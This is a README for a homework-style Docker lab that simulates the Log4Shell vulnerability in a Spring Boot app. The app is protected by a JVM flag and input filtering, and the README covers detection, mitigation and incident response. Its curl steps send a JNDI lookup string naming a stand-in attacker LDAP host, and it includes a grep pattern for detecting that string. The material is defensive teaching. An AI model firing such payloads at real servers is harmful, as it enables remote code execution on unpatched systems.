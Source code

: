 # Log4Shell Safe Simulation Environment

This project provides a **safe, Dockerized environment** to simulate the Log4Shell (CVE-2021-44228) vulnerability for educational purposes. It uses Log4j version 2.14.1 **with JNDI lookup disabled** to prevent real exploitation, allowing you to practice detection, defense, and response safely.

---

## Project Structure

- `pom.xml` — Maven dependencies including vulnerable Log4j 2.14.1
- `Dockerfile` — Builds the Spring Boot app with safe JVM flag
- `docker-compose.yml` — Starts the app container
- `src/main/java/com/example/LogController.java` — Spring Boot REST controller that logs user input

---

## Setup Instructions

### Prerequisites

- Docker and Docker Compose installed
- Basic knowledge of terminal/command line

### Build and Run

1. Set up the project directory

mkdir log4shell-homework
cd log4shell-homework

2. Java Web App Components

Ensure the following are created:

pom.xml with Log4j 2.14.1 and Spring Boot 2.5.5

LogController.java logs user input and blocks ${jndi: payloads

Dockerfile with JVM mitigation flag

docker-compose.yml for service orchestration

3. Build and Run the App

docker-compose up --build

Visit: http://localhost:8080

4. Simulate a Malicious Payload

curl -X POST http://localhost:8080/log -d '{jndi:ldap://attacker.com/a}'

Expected Response:

Invalid input detected

5. Test Normal Input

curl -X POST http://localhost:8080/log -d 'Hello, world!'

Expected Response:

Logged: Hello, world!

Part 2: Mitigation (MITRE DEFEND)

6. Security Controls

Already implemented:

JVM flag: -Dlog4j2.formatMsgNoLookups=true

Input validation in LogController.java

7. Rebuild App (if updated)

docker-compose down
docker-compose up --build

8. Verify Defenses

curl -X POST http://localhost:8080/log -d '${jndi:ldap://attacker.com/a}'

Should return:

Invalid input detected

Part 3: Incident Response (MITRE REACT)

9. Detect

docker-compose logs app | grep '${jndi:'

10. Contain

docker-compose down

11. Eradicate

docker ps -a

Ensure no suspicious containers remain.

12. Recover

docker-compose up --build

Verify with:

curl -X POST http://localhost:8080/log -d 'All systems go'


